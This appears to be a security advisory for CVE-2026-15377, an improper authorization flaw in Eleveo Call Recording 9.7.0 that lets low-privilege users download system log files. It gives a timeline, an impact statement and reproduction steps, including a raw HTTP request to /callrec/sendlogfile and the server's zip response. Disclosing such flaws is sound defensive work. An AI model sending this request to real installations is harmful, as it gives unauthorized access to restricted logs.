



# Eleveo Call Recording Software 9.7.0 /callrec/sendlogfile Improper Authorization

> - https://vuldb.com/vuln/377444
> - https://vuldb.com/submit/797462
> - https://www.cve.org/CVERecord?id=CVE-2026-15377

## Timeline

- 10/3/2026 - Initial contact with the vendor
- 14/3/2026 - A second attempt was made to contact the vendor; however, no response was received
- 5/4/2026 - The vulnerability was submitted to VulnDB for CVE assignment.
- 10/7/2026 - The CVE has been assigned and published.

## Software Details

| Key              | Value                                          |
| ---------------- | ---------------------------------------------- |
| Vendor Name      | Eleveo                                         |
| Software Name    | Call Recording Software                        |
| Software URL     | https://www.eleveo.com/call-recording-software |
| Affected Version | 9.7.0                                          |

## Description

A Broken Access Control vulnerability exists in /callrec/sendlogfile endpoint of Eleveo Call Recording 9.7.0, which allows low-privileged authenticated users, including those without “Other Settings” privilege, to download system log files. The backend does not properly enforce role-based access control, allowing unauthorized users to access and download log files that should be restricted to administrative users. The accessible logs include various system and service logs such as web server logs, SIP logs, message queue logs, JTAPI logs, Genesys logs, and approximately 30 additional log files related to different system components.

## Implications

Disclosure of sensitive system information contained within log files, including operational details and system component behavior.

## Vulnerability Type

Broken Access Control / Improper Authorization

## Steps to Reproduce

1. Login as a low-privilege user with no “Other Settings” privilege


2. Navigate to https://example.local/callrec/sendlogfile?sendLogIdx=34



```html
GET /callrec/sendlogfile?sendLogIdx=34 HTTP/1.1
Host: example.local
Cookie: DWRSESSIONID=***TRUNCATED***; scroolY=0; JSESSIONID=***TRUNCATED***
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36 Edg/145.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i
Connection: keep-alive
```

```http
HTTP/1.1 200 
Date: Sun, 08 Mar 2026 21:34:24 GMT
Server: Apache
Access-Control-Allow-Origin: *
Access-Control-Allow-Headers: Content-Type
Content-Security-Policy: default-src 'self'; script-src 'self' 'unsafe-inline' 'unsafe-eval';img-src *; style-src * 'unsafe-inline';
Content-Disposition: attachment; filename=web_log.zip
Content-Type: application/zip;
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Length: 179699

***TRUNCATED***<LOG_FILE_COMPRESSED_AS_ZIP>***TRUNCATED***
```



4. Observe that a malicious user can download the following types of logs without being authorized

